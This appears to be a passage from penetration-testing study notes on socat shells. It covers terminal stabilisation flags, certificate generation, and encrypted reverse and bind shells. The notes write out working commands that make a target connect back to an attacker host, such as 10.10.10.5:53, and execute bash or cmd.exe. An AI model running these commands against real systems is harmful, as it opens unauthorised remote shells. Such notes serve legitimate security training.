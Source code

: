 * Pass arguments.

pty, stderr, sigint, setsid and sane:

* pty allocates a pseudoterminal on the target.
  * Part of the stabilisation process.
* stderr makes sure that any error messages get shown in the shell.
  * Often a problem with non-interactive shells.
* sigint passes any Ctrl+C commands through into the sub-process allowing commands to be killed inside the shell.
* setsid creates the process in a new session.
* sane stabilises the terminal attempting to 'normalise' it.

#### **Socat Encrypted Shells** <a href="#jn829fsmxjg" id="jn829fsmxjg"></a>

* Any TCP commands replaced with OPENSSL.
* Generate certificate on attack host to use encrypted shells.
  * 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year.

openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt

* Merge the two created files into a single .pem file.

cat shell.key shell.crt > shell.pem

* Set up reverse shell listener on attack host.
  * Creates OPENSSL listener using the generated certificate.
  * verify=0 tells connection not to bother validating that the certificate has been properly signed by a recognised authority.

socat OPENSSL-LISTEN:\<PORT>,cert=shell.pem,verify=0 -

* Syntax to connect back from target host.

socat OPENSSL:\<LOCAL-IP>:\<LOCAL-PORT>,verify=0 EXEC:/bin/bash

* For a bind shell.
* Create listener on target host.

socat OPENSSL-LISTEN:\<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes

* Syntax for setting up OPENSSL-LISTENER using tty technique.
  * Use port 53 and a PEM file called "encrypt.pem"

socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:\`tty\`,raw,echo=0

* Connect from attack host.

socat OPENSSL:\<TARGET-IP>:\<TARGET-PORT>,verify=0 -

* Syntax to use to connect back to tty listener if attack host IP is 10.10.10.5.

socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,san

* Certificate must be used with listener even for a Windows target host.
  * Copying PEM file across for bind shell is required.
* Technique will work with special Linux-only TTY shell covered previously.

### **Common Shell Payloads** <a href="#jilsithmo0rx" id="jilsithmo0rx"></a>

